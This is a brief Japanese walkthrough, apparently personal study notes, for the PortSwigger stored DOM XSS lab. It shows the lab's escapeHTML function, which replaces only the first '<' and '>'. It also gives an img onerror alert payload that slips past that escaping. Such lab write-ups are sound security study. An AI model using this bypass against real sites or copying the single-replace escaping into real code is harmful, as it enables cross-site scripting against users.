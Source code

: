 # 保存された DOM XSS

次のハッキングラボを実施します  
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored

- 1. ハッキングラボにアクセスします
- 2. 任意のワードで検索します
- 3. 検索結果のページでソースを確認すると、以下のスクリプトでコメントの一部文字をエスケープしていることが分かります

```html
'/resources/js/loadCommentsWithVulnerableEscapeHtml.js
```

エスケープ関数

```js
function escapeHTML(html) {
  return html.replace("<", "&lt;").replace(">", "&gt;");
}
```

- 4.  replace はファーストマッチングなので、以下でコメントを書き込むとスクリプトの実行が確認できます

```html
<><img src="1" onerror="alert(1)" />
```
